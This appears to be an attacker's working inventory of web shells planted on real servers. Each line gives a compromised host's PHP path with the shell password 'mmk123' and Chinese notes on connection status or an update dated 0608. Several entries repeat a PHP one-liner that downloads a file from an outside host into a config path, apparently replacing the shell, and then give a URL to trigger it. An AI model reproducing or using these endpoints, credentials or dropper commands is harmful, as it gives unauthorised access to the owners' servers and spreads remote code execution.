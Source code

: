 http://120.24.236.22/template/template_init.php |mmk123 连接不上

http://47.98.142.4/template/template_init.php |mmk123 连接不上

http://8.138.1.80/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.138.1.80/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.138.1.80/config/httpd.php?d=up

http://123.57.39.70:32/template/template_init.php |mmk123 
代码更新：0608 ✅
http://123.57.39.70:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.39.70:32/config/httpd.php?d=up

http://www.zhishifufei.xyz/static/upload/image/20211005/m1.php |mmk123 |  1.94.24.175 | 连接不上
http://1.94.24.175:88/template/template_init.php |mmk123 
http://193.112.85.153/template/template_init.php |mmk123 |tiquan | Invalid domain
http://82.156.106.212/template/template_init.php |mmk123

http://82.156.247.28/template/template_init.php |mmk123 
代码更新：0608 ✅
http://82.156.247.28/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://82.156.247.28/config/httpd.php?d=up

http://123.57.135.114/template/template_init.php |mmk123 
代码更新：0608 ✅
http://123.57.135.114/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://123.57.135.114/config/httpd.php?d=up

http://106.15.239.172:32/template/template_init.php |mmk123 
代码更新：0608 ✅
http://106.15.239.172:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://106.15.239.172:32/config/httpd.php?d=up

http://212.64.20.68/rewrite/simple.php |mmk123 | 连接不上

http://101.201.118.217/core/view/simple.php |mmk123 
代码更新：0608 ✅
http://101.201.118.217/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://101.201.118.217/config/httpd.php?d=up

